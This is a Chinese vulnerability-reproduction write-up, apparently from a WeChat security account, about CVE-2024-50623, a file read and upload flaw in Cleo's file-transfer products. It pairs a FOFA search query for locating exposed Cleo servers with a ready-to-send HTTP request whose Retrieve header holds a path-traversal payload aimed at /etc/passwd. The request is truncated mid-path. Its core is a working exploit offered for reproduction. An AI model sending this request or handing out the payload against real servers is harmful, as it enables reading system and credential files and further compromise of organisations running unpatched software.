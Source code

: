 ## Cleo 简介

微信公众号搜索：南风漏洞复现文库
该文章 南风漏洞复现文库 公众号首发

Cleo

## 2.漏洞描述

Cleo LexiCom等都是Cleo公司的产品，其中Cleo LexiCom是集成平台，Cleo Harmony是文件集成解决方案，Cleo VLTrader是安全托管文件传输软件。2024年12月，互联网上披露 CVE-2024-50623 Cleo Synchronization 任意文件读取上传漏洞，攻击者可读取遍历文件或者上传恶意文件，造成敏感信息泄漏或者任意代码执行。

CVE编号:CVE-2024-50623

CNNVD编号:

CNVD编号:

## 3.影响版本

Cleo

## .fofa查询语句

server="Cleo"

## 5.漏洞复现

漏洞链接：https://xx.xx.xx.xx/Synchronization

漏洞数据包：

```
GET /Synchronization HTTP/1.1
Host: xx.xx.xx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: csrftoken=z1GtnjQWsIKwGazlFX7V; csrftoken=NX6iujIUcamW9umprA1vx19dzU6EZNLa; csrftoken=kZ4jVQ4uZtITYtnweSsVDUEwZ2ltraTF
Priority: u=4
Retrieve: l=Ab1234-RQ0258;n=VLTrader;v=7.2.1;a=1337;po=1337;s=True;b=False;pp=1337;path=../../etc/pas
```